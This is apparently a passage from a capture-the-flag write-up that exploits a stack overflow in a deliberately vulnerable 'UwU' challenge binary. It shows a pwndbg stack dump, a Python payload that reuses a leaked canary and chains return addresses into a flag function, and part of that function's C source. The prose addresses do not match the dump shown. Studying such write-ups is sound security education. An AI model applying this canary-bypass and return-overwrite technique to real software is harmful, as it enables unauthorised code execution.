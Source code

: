 The following is the stack right after we bypassed canary and maliciously returned to `know_more_about_UwU`, entering it the second time
```
pwndbg> stack 25
00:0000│ rsp 0x7ffe5516a6e0 —▸ 0x564e2ac00c60 (UwU_flag) ◂— push rbp
01:0008│     0x7ffe5516a6e8 ◂— 0x3131313131313131 ('11111111')
02:0010│     0x7ffe5516a6f0 ◂— 0x3232323232323232 ('22222222')
03:0018│     0x7ffe5516a6f8 ◂— 0xdeadbeef
04:0020│     0x7ffe5516a700 ◂— 0x3333333333333333 ('33333333')
05:0028│     0x7ffe5516a708 ◂— 0x3434343434343434 ('44444444')
06:0030│     0x7ffe5516a710 ◂— 0xbeefdead
07:0038│     0x7ffe5516a718 ◂— 0x3db2ac3078c80a00
08:0040│     0x7ffe5516a720 ◂— 0
```
we can see that `rsp 0x7ffce08e2250 —▸ 0x558dcf400c60 (UwU_flag) ◂— push rbp` which was located at `rbp+0x10`, right above the address that got us into `know_more_about_UwU` at `rbp+0x8` is now at `rsp`. 
A while later, after the `push rbp` instruction, this `0x558dcf400c60 (UwU_flag)` address would then officially be us return address at the typical location `rbp+0x8` above `"saved old rbp"`
That's exactly how we can return to `UwU_flag` from `know_more_about_UwU` with just one payload we wrote for previous stack frame


Our corresponding exploit payload:
```py
payload = b'UwUUwU'+ b'A' * 82 # 88 bytes to get to canary
payload += p64(leaked_canary) # replace with variable that stores it
payload += b'A' * 8 # goes to return address 
payload += p64(know_more_addr)
payload += p64(UwU_flag_addr)
payload += b'1' * 8 # padding between deadbeef and rbp 
payload += b'2' * 8 # padding between deadbeef and rbp 
payload += p64(0xdeadbeef)
payload += b'3' * 8 # padding between deadbeef and beefdead  
payload += b'4' * 8 # padding between deadbeef and beefdead  
payload += p64(0xbeefdead)
```


```c
void UwU_flag(int arg1, int arg2, int arg3, int arg4,
			  int arg5, int arg6, int arg7, int arg8,
			  int arg9, int arg10, int arg11, int arg12)
{
	char flag[1024] = {0};
	char input[6];
	puts("What the hack!! How you did get here!! (ꐦ°᷄д°᷅) ");
	puts("But this time, you will need the passcode in order to get the flag (´∩ω∩｀)");
	FILE *f = fopen("flag.txt", "r");
	if (f == NULL)
	{
		printf("flag.txt file is missing (′゜ω。‵)\n");
		exit(1);
	}
	printf("* Please enter the passcode: ");
	fgets(input, 6, stdin);
	if (passcode == atoi(input))
	{
		if (arg8 != 0xdeadbeef)
		{
			printf("Your 8th argument is not 0xdeadbeef •_ゝ•");
			exit(1);
		}
		if (arg11 != 0xbeefdead)
		{
			printf("Your 11th argument is not 0xbeefdead •_ゝ•");
```